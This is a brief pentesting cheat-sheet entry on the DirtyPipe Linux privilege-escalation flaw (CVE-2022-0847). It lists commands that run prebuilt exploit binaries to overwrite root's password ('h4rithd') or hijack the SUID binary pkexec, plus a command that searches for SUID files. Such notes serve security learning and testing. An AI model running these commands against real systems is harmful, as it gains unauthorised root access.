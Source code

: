 
##  DirtyPipe - CVE-2022-0847

`https://docs.h4rithd.com/linux/privilageesc-linux#id-06.9-dirtypipe-cve-2022-0847`

```bash
./dpipe-root
su root ## Password is h4rithd

## find SUID Binary
find / -perm -4000 -ls 2>/dev/null
## Execute it as /usr/bin/pkexec
./dpipe-suid  /usr/bin/pkexec
```
